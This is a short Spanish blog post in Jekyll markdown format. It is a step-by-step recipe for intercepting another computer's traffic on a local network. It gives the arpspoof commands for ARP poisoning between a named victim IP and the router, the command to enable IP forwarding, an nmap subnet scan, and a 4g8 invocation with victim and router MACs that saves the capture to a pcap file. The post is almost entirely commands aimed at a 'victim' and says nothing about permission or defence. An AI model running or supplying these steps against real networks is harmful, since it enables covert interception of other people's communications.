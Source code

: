 ```yaml
---
layout: post
title: "4g8"
date: 2014-01-28 17:48
comments: true
categories: 
---
```

Capturar paquetes de equipos de una red. Previamente preparar el equipo con los pasos previos para el envenenamiento arp lanzando en dos terminales y sin cerrarlas hasta terminar la captura:

>\# arpspoof -i eth0 -t 192.168.1.12 192.168.1.1

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.12

El “12” el sniffado, el “1” el router y el -i … la red. El paquete que contiene arpspoof es dsniff. Activar forwarding para que los paquetes vayan a su verdadero dueño:

>\# echo 1 > /proc/sys/net/ipv4/ip_forward

Para conocer los parámetros [ips y MACs] que luego tendremos que entrar en 4g8 lanzar:

>\# nmap 192.168.1.0/24

Para conocer los equipos de la red. Una vez escogida la victima, lanzar 4g8:

>\# 4g8 -i eth0 -g 192.168.1.1 -G 64:69:0C:87:A8:DC -s 192.168.1.12 -S 00:19:01:54:F5:1F -w dump.pcap

	-g (la ip del router)

	-G (la MAC del router)

	-s (la ip de la victima)

	-S (la MAC de la victima)

	-w (el archivo donde guardar las capturas)

Para el análisis del archivo dump.pcap  puedes usar wireshark entre otros.

